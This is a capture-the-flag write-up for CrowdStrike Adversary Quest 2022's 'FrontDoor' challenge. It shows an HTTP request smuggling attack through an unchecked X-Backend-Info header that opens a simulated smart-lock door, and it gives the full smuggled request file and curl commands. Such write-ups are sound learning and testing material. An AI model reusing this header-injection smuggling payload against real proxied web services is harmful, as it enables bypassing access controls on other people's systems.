

# Crowdstrike Adversary Quest 2022 / Protective Penguin / #1 FrontDoor

## Challenge Description

A new activity cluster around the cyber threat actor known as PROTECTIVE PENGUIN was discovered. We were asked to investigate the cyber activity around a physical breach into a research institute located in the antarctic. The black ops unit that gained physical access to the location by bypassing several security mechanisms is presumably in connection to PROTECTIVE PENGUIN. It is currently is assumed that the unit infected unknown air-gapped devices inside the location.

The institute that was breached is protected with smart locks at each door. The actor likely exploited a flaw in the door access controller (reachable at 116.202.83.208:50005) to open doors without a PIN. Please analyze the pin pad for us and reproduce the exploit against the system.

Note: Flags will be easily identifiable by the format “CS{some_secret_flag_text}”. They must be submitted in full, including “CS{“ and “}”.

## Unpacked Challenge Files

```console
$ ls -laR
.:
total 10
drwxr-xr-x 1 501 dialout  288 Jul 31 05:55 .
drwxr-xr-x 1 501 dialout  192 Jul 13 14:01 ..
-rw-r--r-- 1 501 dialout  109 Jul 13 04:34 coms.py
-rw-r--r-- 1 501 dialout 3034 Jul 13 04:34 frontend.py
-rw-r--r-- 1 501 dialout  399 Jul 13 04:34 README.md
-rwxr-xr-x 1 501 dialout   67 Jul 13 04:34 run_frontend.sh
-rwxr-xr-x 1 501 dialout   70 Jul 13 04:34 run_smartlock.sh
-rw-r--r-- 1 501 dialout 2568 Jul 13 04:34 smartlock.py
drwxr-xr-x 1 501 dialout   96 Jul 13 04:34 templates

./templates:
total 7
drwxr-xr-x 1 501 dialout   96 Jul 13 04:34 .
drwxr-xr-x 1 501 dialout  288 Jul 31 05:55 ..
-rw-r--r-- 1 501 dialout 5478 Jul 13 04:34 index.html
```

## Pre-Requisites / README.md

```console
$ cat README.md    
# PROTECTIVE PENGUIN - 01 - FrontDoor

To setup this challenge you have to run two commands:

1. Start the Flask frontend server: `./run_frontend.sh`
2. Start the Flask backend server: `./run_smartlock.sh`

The frontend server exposes an HTTP-server on port 5000. The backend server is locally binded.

The requirements are installed via:

$ pip install Werkzeug==2.1.1
$ pip install Flask
```

## Initial Web Service Analysis / Mapping

- The (local version of the) door access controller comes with a frontend web service (`frontend.py`) listening on TCP port 5000 accepting connections from all IPv4 addresses (`INADDR_ANY`). For this write-up, the local IPv4 address is `172.16.239.137`.
- The backend web service (`smartlock.py`) is listening on TCP port 5001 only accepting connections from localhost.

The very first access attempt returns a string asking for a `door_id`.

```console
$ curl http://172.16.239.137:5000    
please provide door_id
```

If we browse to `http://172.16.239.137:5000/?door_id=1` with a web browser, a pin pad for door #1 is presented.



Since we neither have any information about possibly interesting values for `door_id` nor pin values, we need to dig deeper into the web service internals.

### Backend Web Service *smartlock.py*

The source file begins with an interesting comment.

```python
# This dictionary maps a door_id to another dictionary where
# all session_id's (uid) are mapped to their status.
#
# Example: If a user with uid x sucessfully opened the door y, then
# this dictionary is updated like all_door_sessions[y][x] = new_status.
#
# New status is also a dictionary:
#
# {
#     "state": "locked" or "unlocked" or "unlocked CS{flag}"
#     "deadline": datetime
# }
all_door_sessions = {}
```

So the unlocked session state of a (certain) door will contain the flag string. Each session state seems to have a deadline as well. If we are to inspect the function **session_set_status()**, we will find the deadline being **29 seconds**.

#### Endpoint /api/status

This endpoint will return the current door state for the tuple (HTTP POST parameter `door_id` and value for cookie `uid`).

```python
@app.route("/api/status", methods=["POST"])
def api_door_status():
[...]
    door_id = request.form.get("door_id")
    uid = request.cookies.get("uid")
[...]
    try:
        state = all_door_sessions[door_id][uid]
    except KeyError:
        return "locked"

    return state["state"] + " for uid " + uid
```

#### Endpoint /api/door/open

This endpoint will set and return the state `unlocked` for the tuple (HTTP POST parameter `door_id` and value for cookie `uid`).

```python
@app.route("/api/door/open", methods=["POST"])
def api_door_open():
[...]
    door_id = request.form.get("door_id", "")
    uid = request.cookies.get("uid")
[...]
    try:
        coms.open_door(door_id)
    except:
        abort(500)

    status = "unlocked" + (f" {coms.flag()}" if door_id == "17" else "")
    session_set_status(door_id, uid, status)

    return status
```

If the `door_id` is `17`, it will also append the flag's value to the status string.

So all we have to do it open door 17. Sounds easy. Let's verify that on the local backend.

```console
$ curl -X POST --cookie "uid=1337" -d "door_id=17" http://127.0.0.1:5001/api/door/open
unlocked CS{dummy} 
```

If only we had access to the backend server... ;-)

### Frontend Web Service *frontend.py*

#### Endpoint /

This endpoint will display a pin pad for the requested `door_id`. We have seen that in above screenshot already.

```python
@app.route("/", methods=["GET"])
def serve_index():
    door_id = request.args.get("door_id")
[...]
    payload = render_template("index.html", DOOR_ID=door_id)
    return embed_user_id(request, payload)
```

#### Endpoint /api/door/open

This endpoint will pass an open door request to the backend server.

```python
@app.route("/api/door/open", methods=["POST"])
def api_door_open():
[...]
    door_id = request.form.get("door_id")
    request_pin = request.form.get("pin")
    uid = request.cookies.get("uid")
    # generate random pin for each request.
    correct_pin = "".join([chr(secrets.choice(range(ord('0'), ord('9') + 1))) for _ in range(23)])
    if request_pin == correct_pin:
        response = requests.post("http://127.0.0.1:5001/api/door/open", data={"door_id": door_id, "uid": uid})
        return Response(response.text, status=response.status_code)
    return Response("incorrect pin")
```

For each access to this endpoint, a new pin value is randomly generated. It is highly unlikely to guess it. We need a different way to have the frontend call `/api/door/open` on the backend server...

#### Endpoint /api/status

This endpoint will request the door status from the backend server and display the result.

```python
@app.route("/api/status", methods=["POST"])
def api_door_status():
[...]
    try:
        bcki = json.loads(request.headers.get("X-Backend-Info", "{}"))
    except json.JSONDecodeError:
        abort(400)
    bcki["Content-Type"] = "application/x-www-form-urlencoded"
    bcki["Cookie"] = request.headers.get("Cookie", generate_random_user_id())
    raw_request = request.get_data()
    # reverse proxy to backend:
    response = requests.post(f"{API_BACKEND}/api/status",data=raw_request,headers=bcki)
    return Response(response.text, status=response.status_code)
```

This seems interesting. What does the HTTP header field `X-Backend-Info` do? It is loaded from the original request and passed without checks to the backend as header fields together with `raw_request` being filled with the original request's unchecked data.

## Approach

Let's recap what we have identified so far.

- We need to somehow trigger a door open request to the backend server for door with id 17 to grab the flag.
- The frontend's door open endpoint would do that, if we were to supply the correct randomly generated pin - which we assume we can't guess.
- The frontend's status endpoint will send some unchecked user provided data to the backend status endpoint (`X-Backend-Info` from HTTP POST header and all of the body).

The latter seems to be a right spot to dig deeper on. It pretty much smells like being vulnerable to HTTP request smuggling.

## Creating the Exploit

What [HTTP request smuggling](https://portswigger.net/web-security/request-smuggling) basically does is to attempt to send several HTTP requests (a sequence) packed into one using the HTTP header field `Transfer-Encoding` with the value `chunked`.

With this transfer encoding, the message body can comprise several requests (chunks).

- Each chunk begins with a line containing only the length in hexadecimal.
- Then follows the chunk contents

We can attempt to make the frontend server pass two chunked HTTP requests to the backend server.

Let's prepare the payload.

```console
$ cat smuggled_request.txt
0

POST /api/door/open HTTP/1.1
Host: 127.0.0.1:5001
Content-Length: 10
Accept: */*
Content-Type: application/x-www-form-urlencoded
Cookie: uid=7ba2909d5bc841ccb4c18dcbc3759f06
Connection: close

door_id=17
```

Let's send this to the locally running frontend web service via curl.

```console
$ curl -X POST -H 'X-Backend-Info: {"Transfer-Encoding": "chunked"}' --cookie "uid=7ba2909d5bc841ccb4c18dcbc3759f06" --data-binary @smuggled_request.txt --proxy "127.0.0.1:8080" http://172.16.239.137:5000/api/status
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>501 Not Implemented</title>
<h1>Not Implemented</h1>
<p>The server does not support the action requested by the browser.</p>
```

Yes, it complains. That's okay, if it still is firing the internal requests to the backend.

With some debug prints in place, we can see how the request is received by the frontend...

```txt
[*] Debug HTTP POST header + body
Host: 172.16.239.137:5000
User-Agent: curl/7.79.1
Accept: */*
Cookie: uid=7ba2909d5bc841ccb4c18dcbc3759f06
X-Backend-Info: {"Transfer-Encoding": "chunked"}
Content-Length: 207
Content-Type: application/x-www-form-urlencoded
Connection: close

0

POST /api/door/open HTTP/1.1
Host: 127.0.0.1:5001
Content-Length: 10
Accept: */*
Content-Type: application/x-www-form-urlencoded
Cookie: uid=7ba2909d5bc841ccb4c18dcbc3759f06
Connection: close

door_id=17
------------------------------
172.16.239.137 - - [20/Jul/2022 10:10:24] "POST /api/status HTTP/1.1" 501 -
```

... and what is sent from the frontend to the (local) backend.

```txt
[*] Debug HTTP POST header + body
Host: 127.0.0.1:5001
User-Agent: python-requests/2.20.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Cookie: uid=7ba2909d5bc841ccb4c18dcbc3759f06
Content-Length: 207


------------------------------
127.0.0.1 - - [20/Jul/2022 10:10:24] "POST /api/status HTTP/1.1" 501 -

[*] Debug HTTP POST header + body
Host: 127.0.0.1:5001
Content-Length: 10
Accept: */*
Content-Type: application/x-www-form-urlencoded
Cookie: uid=7ba2909d5bc841ccb4c18dcbc3759f06
Connection: close

door_id=17
------------------------------
127.0.0.1 - - [20/Jul/2022 10:10:24] "POST /api/door/open HTTP/1.1" 200 -
```

Awesome! That is exactly what we wanted to achieve! The frontend server sends a *chunked* request to the backend, which the backend interpretes as two separate requests from the frontend.

- One request to `/api/status` without a body, yielding a 501 error.
- The other request to `/api/door/open` with `door_id=17` with a status code 200.

Now let's see if the door is open.

```console                                                                                                             
$ curl -X POST --cookie "uid=7ba2909d5bc841ccb4c18dcbc3759f06" -d "door_id=17" --proxy "127.0.0.1:8080" http://172.16.239.137:5000/api/status                                                                          
unlocked CS{dummy} for uid 7ba2909d5bc841ccb4c18dcbc3759f06 
```

Yes, it is!

## Now it's Flag Time!

Let's smuggle the same request to the remote frontend web service.

```console
$ curl -X POST -H 'X-Backend-Info: {"Transfer-Encoding": "chunked"}' --cookie "uid=7ba2909d5bc841ccb4c18dcbc3759f06" --data-binary @smuggled_request.txt --proxy "127.0.0.1:8080" http://116.202.83.208:50005/api/status
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>501 Not Implemented</title>
<h1>Not Implemented</h1>
<p>The server does not support the action requested by the browser.</p>
                                                                                                             
$ curl -X POST --cookie "uid=7ba2909d5bc841ccb4c18dcbc3759f06" -d "door_id=17" --proxy "127.0.0.1:8080" http://116.202.83.208:50005/api/status
unlocked CS{th3r3_1s_n0_w4y} for uid 7ba2909d5bc841ccb4c18dcbc3759f06 
```

Flag: **CS{th3r3_1s_n0_w4y}**
